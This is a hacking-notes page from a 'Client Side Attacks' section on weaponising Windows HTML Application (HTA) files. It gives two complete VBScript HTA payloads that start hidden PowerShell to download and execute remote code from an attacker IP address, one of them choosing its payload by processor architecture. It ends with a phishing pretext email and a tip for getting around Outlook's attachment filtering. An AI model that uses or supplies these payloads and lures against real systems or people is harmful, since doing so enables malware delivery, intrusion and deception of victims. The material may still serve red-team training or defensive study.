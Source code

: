 ```yaml
---
title: HTML Application (HTA)
category: Client Side Attacks
order: 3
---
```


An HTML Application (HTA) is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (`VBScript` and `JScript`). The HTML is used to generate the user interface and the scripting language for the program logic. An HTA executes without the constraints of the browser's security model, so it executes as a "fully trusted" application.

An HTA file is executed using `mshta.exe`, which is typically installed along with Internet Explorer.

> **Note**: `mshta` is dependant on Internet Explorer, so if it has been uninstalled, HTAs will be unable to execute.

HTA files has the `.hta` extension.

# Executing x64 powershell payload

```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Magic()
      Set shell = CreateObject("wscript.Shell")
      shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""
    End Function

    Magic
  </script>

</html>
```

# Checking the architecture and executing powershell payload

```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
	Function Magic()
	  Set shell = CreateObject("wscript.Shell")

	  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""
	  Else
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/b'))"""
	  End If

	End Function

    Magic
  </script>

</html>
```

# Phishing

By default, Outlook has filetype filtering in order to prevent you from attaching certain files to emails.

![](/hackingnotes/images/hta-email.png)

Instead of attaching, we can just host the file on a server and send a link to the victim.

```html
<html>
<body>
	<p>Hi Miguel,</p>
	<p>Please fill this <a href="/staff">form</a> as soon as possible.</p>
	<p>Best regards,</p>
	
</body></html>
```
![](/hackingnotes/images/hta-link.png)